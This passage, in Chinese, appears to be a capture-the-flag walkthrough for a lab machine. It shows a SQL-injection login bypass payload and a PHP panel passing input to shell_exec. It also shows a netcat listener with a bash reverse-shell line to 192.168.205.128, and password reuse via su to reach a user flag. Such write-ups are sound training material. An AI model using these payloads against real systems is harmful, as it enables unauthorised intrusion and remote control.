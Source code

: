 # **2. 身份伪造与命令执行**

接着读取登录成功后跳转的页面 `manager.php`，发现一个命令执行漏洞，但需要登录用户的用户名为 `he110wor1d_admin`。

```php
// 从 manager.php 源码中发现的关键代码
if ($_SESSION['username'] !== 'he110wor1d_admin') {
    die("Access Denied. You do not have permission to access this page.");
}
...
$command = $_POST['command'];
$command_output = shell_exec($command);
...
```

由于 `login.php` 的SQL查询存在缺陷，我们可以通过构造UNION查询来伪造身份。在登录框中输入以下payload：

*   **Username**: `' UNION SELECT 1, 'he110wor1d_admin', '1' #`
*   **Password**: `1`

成功登录后，我们进入了 `manager.php` 的命令执行面板。为了获得一个稳定的交互式Shell，我们执行反弹Shell命令。

首先，在攻击机上监听端口：

```bash
nc -lvnp 8888
```

然后在Web面板中执行：

```bash
bash -c 'bash -i >& /dev/tcp/192.168.205.128/8888 0>&1'
```

成功获取 `www-data` 用户的shell。

# **三、权限提升**

## **1. 水平提权：www-data -> he110wor1d**

在获取 `www-data` 权限后，我们怀疑之前从 `login.php` 中泄露的数据库密码 `i_love_sing_dance_rap` 可能被系统用户 `he110wor1d` 复用。

```bash
www-data@singdancerap:/var/www/he110wor1d/littlesecrets$ su he110wor1d 
Password: i_love_sing_dance_rap
he110wor1d@singdancerap:/home$ id
uid=1001(he110wor1d) gid=1001(he110wor1d) groups=1001(he110wor1d)
```

成功切换到 `he110wor1d` 用户，并在其家目录下找到第一个flag。

```bash
he110wor1d@singdancerap:~$ cat user.txt
#SQL injection can not only retrieve data but also forge it.

User flag:107883ee-f5e4-11ef-8542-005056207011
```
